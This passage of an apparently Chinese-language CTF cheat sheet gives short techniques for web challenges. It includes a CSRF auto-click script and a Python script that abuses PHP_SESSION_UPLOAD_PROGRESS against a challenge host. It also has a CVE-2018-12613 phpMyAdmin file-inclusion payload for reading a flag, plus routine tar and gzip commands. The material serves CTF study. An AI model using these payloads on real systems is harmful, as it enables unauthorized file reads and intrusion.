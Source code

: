 

## Misc

### cgi相关

走代理：

*例题：[V&N2020 公开赛]TimeTravel*

Proxy: 47.100.179.0:9999

然后在自己的服务器上返回数据

### csrf

```html
<script type="text/javascript">
    //自动点击
      document.getElementById("haha").click();
 </script>
```

### PHP session

绕过session auto start off:

```python
import requests

url = "http://0738e043-ba7b-441b-bb2d-cedf589d052f.node3.buuoj.cn/templates/login.php"

files = {"file": "123456789"}
a = requests.post(url=url, files=files, data={"PHP_SESSION_UPLOAD_PROGRESS": "qwer"},
                  cookies={"PHPSESSID": "qwer"}, params={'username': '1231234', 'password': '1231234'},
                  proxies={'http': "http://127.0.0.1:8080"})
print(a.text)
```

### phpmyadmin任意文件读取

[CVE-2018-12613（phpmyadmin远程文件包含漏洞）](https://www.xiinnn.com/article/e7c68814.html)

> phpmyadmin/index.php?target=db_datadict.php?/../../../../../flag



### tar打包相关命令

```bash
01-.tar格式
解包：[＊＊＊＊＊＊＊]$ tar xvf FileName.tar
打包：[＊＊＊＊＊＊＊]$ tar cvf FileName.tar DirName（注：tar是打包，不是压缩！）
02-.gz格式
解压1：[＊＊＊＊＊＊＊]$ gunzip FileName.gz
解压2：[＊＊＊＊＊＊＊]$ gzip -d FileName.gz
压 缩：[＊＊＊＊＊＊＊]$ gzip FileName

03-.tar.gz格式
解压：[＊＊＊＊＊＊＊]$ tar zxvf FileName.tar.gz
压缩：[＊＊＊＊＊＊＊]$ tar zcvf FileName.tar.gz DirName

04-.bz2格式
解压1：[＊＊＊＊＊＊＊]$ bzip2 -d FileName.bz2
解压2：[＊＊＊＊＊＊＊]$ bunzip2 FileName.bz2
压 缩： [＊＊＊＊＊＊＊]$ bzip2 -z FileName

```